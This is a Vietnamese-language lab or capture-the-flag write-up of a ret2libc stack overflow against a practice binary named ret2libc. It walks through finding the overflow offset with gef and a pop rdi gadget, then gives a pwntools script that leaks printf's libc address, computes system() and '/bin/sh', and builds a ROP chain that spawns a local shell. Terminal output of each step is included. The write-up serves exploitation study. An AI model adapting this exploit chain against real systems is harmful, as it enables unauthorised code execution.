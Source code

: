 # Ret2libc
Đầu tiên sử dụng gef để tìm vị trí ghi vào ret.
```bash
grass@meow:~/CyStack$ gdb-gef ./ret2libc
gef➤  pattern create 200
gef➤  r
Starting program: /home/grass/CyStack/ret2libc 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try to exec /bin/sh
Read 201 bytes. buf is aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaa�
No shell for you :(

gef➤  pattern search $rsp
[+] Searching for '6e61616161616161'/'616161616161616e' with period=8
[+] Found at offset 104 (little-endian search) likely
```
Như vậy offset của chúng ta đang ở vị trí 104.
Bây giờ chúng ta cần sử dụng một số ROP gadget để leak địa chỉ của một hàm bất kì trong libc. Sau đó sử dụng hàm `puts` để in ra đại chỉ của hàm này trong libc. Ở đây em chọn hàm `printf`
Để in ra địa chỉ của hàm `printf` trong libc, ta cần phải truyền địa chỉ của `printf@got` vào bên trong `puts`. Trong kiến trúc x86_64, tham số được truyền thông qua thanh ghi nên ta cần phải truyền địa chỉ này vào bên trong $rdi. 
Do vậy ta cần tìm chuỗi "pop rdi" bên trong chương trình ret2libc. Bằng cách:
```bash
grass@meow:~/CyStack$ ROPgadget --binary ret2libc | grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```
tiếp theo ta tìm địa chỉ của `printf@got` và `put@plt` với
```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x00000000004005c6 <+0>:	push   rbp
   0x00000000004005c7 <+1>:	mov    rbp,rsp
   0x00000000004005ca <+4>:	sub    rsp,0x60
   0x00000000004005ce <+8>:	lea    rax,[rbp-0x60]
   0x00000000004005d2 <+12>:	mov    edx,0x190
   0x00000000004005d7 <+17>:	mov    rsi,rax
   0x00000000004005da <+20>:	mov    edi,0x0
   0x00000000004005df <+25>:	call   0x4004a0 <read@plt>
   0x00000000004005e4 <+30>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004005e7 <+33>:	lea    rdx,[rbp-0x60]
   0x00000000004005eb <+37>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005ee <+40>:	mov    esi,eax
   0x00000000004005f0 <+42>:	mov    edi,0x4006c4
   0x00000000004005f5 <+47>:	mov    eax,0x0
   0x00000000004005fa <+52>:	call   0x400490 <printf@plt>
   0x00000000004005ff <+57>:	mov    edi,0x4006df
   0x0000000000400604 <+62>:	call   0x400480 <puts@plt>
   0x0000000000400609 <+67>:	mov    eax,0x0
   0x000000000040060e <+72>:	leave  
   0x000000000040060f <+73>:	ret    
End of assembler dump.

gef➤  disass 0x400490
Dump of assembler code for function printf@plt:
   0x0000000000400490 <+0>:	jmp    QWORD PTR [rip+0x200b8a]        # 0x601020 <printf@got.plt>
   0x0000000000400496 <+6>:	push   0x1
   0x000000000040049b <+11>:	jmp    0x400470
```
ta thấy địa chỉ của puts@plt là 0x400480 
địa chỉ của printf@got.plt là 0x601020

Chương trình sau sẽ lấy được địa chỉ của printf@got.plt tại thời điểm chương trình đang chạy
```py
from pwn import *

#p = gdb.debug("./ret2libc", gdbscript='b main')
p = process("./ret2libc")
padding = b"A"*104
pop_rdi = 0x00000000004006a3
print_at_got = 0x601020
puts_at_plt = 0x400480
main = 0x0000000000400610

# Craft the payload to leak the address of printf in libc
payload = padding
payload += p64(pop_rdi)
payload += p64(print_at_got)
payload += p64(puts_at_plt)
payload += p64(main)

# Send the payload
p.sendline(payload)
p.recvline()  # Discard data we don't need
p.recvline()  # Discard data we don't need
p.recvline()  # Discard data we don't need


leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Leaked printf Address -> {hex(leak)}")
```

Kết quả:
```bash
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5337
[*] Leaked printf Address -> 0x7ff4914606f0
[*] Stopped process './ret2libc' (pid 5337)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5341
[*] Leaked printf Address -> 0x7f1b806606f0
[*] Stopped process './ret2libc' (pid 5341)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5345
[*] Leaked printf Address -> 0x7f216e0606f0
[*] Stopped process './ret2libc' (pid 5345)
```
tiếp theo lấy địa chỉ của printf bên trong libc với
```bash
grass@meow:~/CyStack$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep printf
  2922: 00000000000606f0   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
```
Từ đó ta có thể tính toán địa chỉ base của libc tại thời điểm chương trình chạy bằng cách thêm đoạn code:
```py
setbuf_offset = 0x606f0  # Static offset of printf() in libc
libc_base = leak - setbuf_offset  # Calculate base address of libc
log.info(f"libc Base Address -> {hex(libc_base)}")
```
Chạy chương trình ta có:
```bash
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5548
[*] Leaked printf Address -> 0x7fec106606f0
[*] libc Base Address -> 0x7fec10600000
[*] Stopped process './ret2libc' (pid 5548)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5552
[*] Leaked printf Address -> 0x7f119a8606f0
[*] libc Base Address -> 0x7f119a800000
[*] Stopped process './ret2libc' (pid 5552)
grass@meow:~/CyStack$ python3 solve.py 
[+] Starting local process './ret2libc': pid 5556
[*] Leaked printf Address -> 0x7f76d1a606f0
[*] libc Base Address -> 0x7f76d1a00000
[*] Stopped process './ret2libc' (pid 5556)
```

Tiếp tục tìm các địa chỉ cần thiết
```bash
grass@meow:~/CyStack$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
grass@meow:~/CyStack$ strings  -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1d8698 /bin/sh
```
tính toán địac chỉ của hàm `system()` và `"/bin/sh"` với:
```py
system_offset = 0x50D70  # Static offset of system() in libc
libc_system = libc_base + system_offset # Calculate the actual address of system() in libc
log.info(f"system Address -> {hex(libc_system)}")

binsh_offset = 0x1d8698  # Static offset of /bin/sh string in libc
libc_binsh = libc_base + binsh_offset
log.info(f"/bin/sh Address -> {hex(libc_binsh)}")
```

```bash
grass@meow:~/CyStack$ python3  solve.py 
[+] Starting local process './ret2libc': pid 5756
[*] Leaked printf Address -> 0x7f83064606f0
[*] libc Base Address -> 0x7f8306400000
[*] system Address -> 0x7f8306450d70
[*] /bin/sh Address -> 0x7f83065d8698
[*] Stopped process './ret2libc' (pid 5756)
```

Bây giờ ta đã tìm được đủ địa chỉ để tiến hành thực hiện stack overflow.
```py
ret = 0x0000000000400469
# ? Craft the payload to call system("/bin/sh")
payload = padding  # Pad the stack until the stored RIP
payload += p64(pop_rdi)  # Set the address of the string /bin/sh as the first argument of system()
payload += p64(libc_binsh)  # This will be the first argument of system()

# pop rip
payload += p64(ret) # Align the stack to 16 bytes otherwise system() will crash

payload += p64(libc_system)  # Call system()

# ? Send the payload
p.sendline(payload)

# ? Start an interactive session
p.interactive() 
```

Đến đây thì em đã thành công sử dụng system gọi "/bin/sh"
```bash
grass@meow:~/CyStack$ python3  solve.py 
[+] Starting local process './ret2libc': pid 5883
[*] Leaked printf Address -> 0x7f228a6606f0
[*] libc Base Address -> 0x7f228a600000
[*] system Address -> 0x7f228a650d70
[*] /bin/sh Address -> 0x7f228a7d8698
[*] Switching to interactive mode
Try to exec /bin/sh
Read 137 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x89
No shell for you :(
$ whoami
grass
$ id
uid=1000(grass) gid=1000(grass) groups=1000(grass),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$  
```
![Alt text](image.png)

Mặc dù ret2libc của em ở đây đã đỏ lòm và thuộc quyền sở hữu của root nhưng vẫn không thể chiếm được root shell.
Trong quá trình tìm hiểu thì em nhận được câu trả lời là có thể do phiên bản của hệ điều hành ubuntu nên ta không thể chiếm được root shell theo cách này nữa. Để chiếm được root shell, ta cần thực hiện priveleged escalation, hoặc bên trong chương trình ret2libc trước khi compile có `suid(0);`;  hoặc là bằng cách nào đấy ta có thể sử dụng ROP để gọi `suid(0)`. 
Phần này em vẫn chưa tìm ra cách thực hiện
Mặc dù vậy em đã có thể sử dụng system để gọi "/bin/sh" nên là...

# Tham khảo
- https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/